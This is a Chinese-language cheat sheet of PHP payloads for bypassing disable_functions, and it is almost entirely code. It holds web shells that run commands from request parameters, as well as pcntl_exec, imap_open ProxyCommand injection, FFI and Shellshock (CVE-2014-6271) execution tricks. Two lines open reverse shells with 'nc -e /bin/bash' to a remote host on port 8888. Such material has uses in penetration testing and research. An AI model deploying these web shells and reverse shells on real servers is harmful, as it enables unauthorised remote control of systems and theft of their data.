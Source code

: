 #### 常规函数绕过
```php
<?php
echo exec('whoami');?>
------------------------------------------------------
<?php
echo shell_exec('whoami');?>
------------------------------------------------------
<?php
system('whoami');?>
------------------------------------------------------
<?php
passthru("whoami");?>
------------------------------------------------------
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
while(!feof($handle))
{        echo fread($handle, 1024);  //fread($handle, 1024);
}
pclose($handle);?>
-------------------------------------------------------
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1]))
{        echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}?>
```
#### pcntl_exec
	开启了pcntl 扩展，并且php 4>=4.2.0 , php5，linux
```php
<?php
if(function_exists('pcntl_exec')) {
pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
echo 'pcntl extension is not support!';
}
?>
```
	test.sh
	#!/bin/bash
	nc -e /bin/bash 1.1.1.1 8888       #反弹shell
#### imap_open函数
```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```
#### php7.4 FFI绕过
	php 7.4
	ffi.enable=true
```php
<?php
$a='nc -e /bin/bash ip 8888';
$ffi = FFI::cdef(
    "int system(char *command);",
    "libc.so.6");
$ffi->system($a);
?>
```
 ### shellshock
	存在CVE-2014-6271漏洞
	PHP 5.*，linux，putenv()、mail()可用
```php
<?php
function shellshock($cmd) {
$tmp = tempnam(".","data");
putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
mail("a@127.0.0.1","","","","-bv");
$output = @file_get_contents($tmp);
@unlink($tmp);
if($output != "") return $output;
else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```